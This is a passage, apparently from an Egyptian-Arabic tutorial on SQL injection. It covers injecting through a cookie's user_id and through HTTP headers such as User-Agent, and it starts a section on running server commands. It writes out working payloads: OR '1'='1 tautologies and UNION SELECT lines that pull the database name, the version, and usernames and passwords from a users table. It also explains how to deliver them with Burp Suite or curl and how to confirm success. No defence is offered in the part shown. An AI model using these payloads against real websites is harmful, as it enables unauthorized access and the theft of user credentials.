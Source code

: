 - **تعديل الكوكيز:**
  عدل `user_id` لـ:
  ```
  123' OR '1'='1 --
  ```
  لو الموقع فتحلك حسابات كتير أو بيانات زيادة، يبقى شغال.

- **سحب بيانات:**
  ```
  123' UNION SELECT 1, database(), version() --
  ```
  لو ظهر اسم الداتابيز أو الإصدار، يبقى نجحت.

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحب المحل "بطاقتي بتقول أنا زبون رقم 123 أو أي زبون عنده فلوس"، لو جابلك كل البضاعة، يبقى الكوكيز فتحتلك الكنز!

---

### **4. استغلال SQL Injection عبر هيدرات HTTP (HTTP Headers)**
#### **إيه هو؟**
بعض المواقع بتستخدم قيم في الهيدرات (زي User-Agent أو Referer) في استعلامات SQL، وممكن تستغلها.

#### **ازاي بيشتغل؟**
بتعدل الهيدر باستخدام أدوات زي Burp Suite أو curl، وبتحط كود SQL.

#### **مثال عملي:**
- الهيدر الأصلي:
  ```
  User-Agent: Mozilla/5.0
  ```
  الاستعلام:
  ```
  SELECT * FROM logs WHERE user_agent = 'Mozilla/5.0'
  ```

- **تعديل الهيدر:**
  ```
  User-Agent: Mozilla/5.0' OR '1'='1 --
  ```
  لو الموقع رد ببيانات زيادة أو سلوك غريب، يبقى في ثغرة.

- **سحب بيانات:**
  ```
  User-Agent: Mozilla/5.0' UNION SELECT 1, username, password FROM users --
  ```

#### **خلاصة طريفة:**
تخيل إنك بتقول للبواب "أنا جاي من عند محمد أو أي حد عنده فلوس"، لو فتحلك الباب وادالك كل المفاتيح، يبقى الهيدر فتحلك البيت كله!

---

### **5. استغلال SQL Injection لتنفيذ أوامر على السيرفر**
#### **إيه هو؟**
لو الداتابيز متصلة بصلاحيات عالية (زي MySQL مع `FILE` privileges)، ممكن تكتب ملفات أو تنفذ أوامر على السيرفر.
